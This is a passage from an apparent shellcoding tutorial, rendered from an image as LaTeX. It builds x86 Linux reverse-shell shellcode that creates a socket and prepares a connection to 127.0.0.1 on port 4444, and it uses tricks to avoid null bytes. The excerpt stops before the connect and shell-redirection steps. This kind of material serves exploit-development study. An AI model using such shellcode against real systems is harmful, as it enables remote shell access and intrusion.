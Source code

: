 \documentclass[11pt]{article}
\begin{document}
So in theory, if we modify our assembly to call 3 instead of 2 e.g
\verb~connect~ instead of \verb~bind~, remove unnecessary system calls, and make
sure that we redirect stdin,stdout,and stderror after making our
connection, we should be in good shape. Lets give that a shot:

\begin{verbatim}
global _start

section .text
  _start:
    ;; Create a socket
    ;; int socketcall(int call, unsigned long *args);
    ;; int socket(int domain, int type, int protocol);
    ;; #define SYS_SOCKET 1   /* sys_socket(2)    */
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x1 ; sys_socket syscall number

    ;; Put the socket() args on the stack
    xor ecx, ecx
    push ecx ; Protocol INADDR_ANY Accept on any interface 0x00000000
    push ebx ; SOCK_STREAM is the type of socket 1

    push 0x2 ; Domain af_inet sets protocol family to ip protocol 2

    mov ecx, esp ; save pointer to args for the socket() call
    int 0x80 ; call sys_socket

    ; save the returned listening socket file descriptor
    xor edi, edi
    mov edi, eax

    ;; Connect on the socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall

    ;; Start building the sockaddr_in structure
    ;; Since the structure is laid out as:
    ;; sin_family, sin_port, sin_addr
    ;; we need to push the values onto the stack
    ;; in reverse order
    ;; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ;; sin_addr= inet_addr("127.0.0.1) = 0x0100007f
    ;; loop back addr is 127.0.0.1
    ;; this translates to 0x0100007f
    ;; we don't want to have null bytes 0x00
    ;; so we add 0x01010101 to our address
    ;; move it into a register
    ;; and then subtract
    xor ecx, ecx
    mov ecx, 0x02010180
    sub ecx, 0x01010101
    push ecx ; inet_addr("127.0.0.1) = 0x0100007f

    ;; 4444 is 0x115c in little endian. Network byte order is
    ;; Big endian so we swap the byte ordering
    push word 0x5c11 ; sin_port=4444 (network byte order)
    ;; bl is sys_connect syscallnumber 0x3
    ;; prior to the next instruction
    ;; subtract one to bring it to 0x2
    ;; which is what AF_INET represents
    inc ebx
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; move pointer to sockaddr_in structure



\end{verbatim}
\end{document}
